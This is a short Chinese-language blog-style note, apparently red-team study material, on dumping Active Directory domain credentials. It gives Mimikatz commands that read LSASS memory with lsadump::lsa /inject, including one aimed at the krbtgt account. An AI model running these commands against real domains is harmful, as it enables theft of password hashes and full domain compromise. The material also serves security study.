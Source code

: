 ```yaml
---
title: Dump域内凭据汇总
date: 2019-12-31 23:59:52 +0800
categories: [域安全, TA0006凭据访问]
tags: [TA0006凭据访问]     # TAG names should always be lowercase
typora-root-url: ..
---
```




# Dump域内凭据汇总

[How Attackers Dump Active Directory Database Credentials](https://adsecurity.org/?p=2398#CreateIFM)



## 读取LSASS进程内存

### 1. 本地获取

**Mimikatz**

通过与LSA Server交互直接拿到SAM和NTDS中储存的Hash, 这种方式与读取SAM，NTDS文件拿到的信息基本一致，但直接与LSASS 交互有可能造成其crash，尤其是在域很大的情况下。

```
privilege::debug
lsadump::lsa /inject
lsadump::lsa /inject /id:502
lsadump::lsa /inject /name:krbtgt
```

![image-20201116205815213](/assets/img/image-20201116205815213.png)
